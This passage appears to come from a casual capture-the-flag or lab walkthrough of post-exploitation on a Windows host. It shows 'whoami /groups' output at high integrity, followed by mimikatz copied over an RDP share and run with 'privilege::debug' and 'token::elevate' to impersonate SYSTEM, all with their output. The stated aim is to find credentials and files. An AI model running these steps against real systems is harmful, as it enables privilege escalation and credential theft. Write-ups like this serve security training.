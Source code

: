 y tho? you ask? for the lulz of course

```bash
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami /groups

## GROUP INFORMATION

Group Name Type SID Attributes
============================================================= ================ ============ ===============================================================
Everyone Well-known group S-1-1-0 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account and member of Administrators group Well-known group S-1-5-114 Mandatory group, Enabled by default, Enabled group
BUILTIN\Administrators Alias S-1-5-32-544 Mandatory group, Enabled by default, Enabled group, Group owner
BUILTIN\Users Alias S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\INTERACTIVE Well-known group S-1-5-4 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users Well-known group S-1-5-11 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization Well-known group S-1-5-15 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account Well-known group S-1-5-113 Mandatory group, Enabled by default, Enabled group
LOCAL Well-known group S-1-2-0 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication Well-known group S-1-5-64-10 Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level Label S-1-16-12288

C:\Windows\system32>
```

So we are in this group Mandatory Label\High Mandatory Level

means its our machine now (_insert communism meme here_)

where flags? where Credentials? where juicy files? where everything?

we download a release of mimikatz (ignore the danger warning...we are the Danger)

and copy to /tpm...same stuff

`\\tsclient\share\x64\mimikatz.exe`

Now mimikatz commands in action

```bash
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # token::elevate
Token Id : 0
User name :
SID name : NT AUTHORITY\SYSTEM

676 {0;000003e7} 1 D 24847 NT AUTHORITY\SYSTEM S-1-5-18 (04g,21p) Primary
-> Impersonated !

- Process Token : {0;001ba397} 1 F 1995372 GAIA\adm1n S-1-5-21-1966530601-3185510712-10604624-1009 (13g,24p) Primary
- Thread Token : {0;000003e7} 1 D 2039477 NT AUTHORITY\SYSTEM S-1-5-18 (04g,21p) Impersonation (Delegation)
```
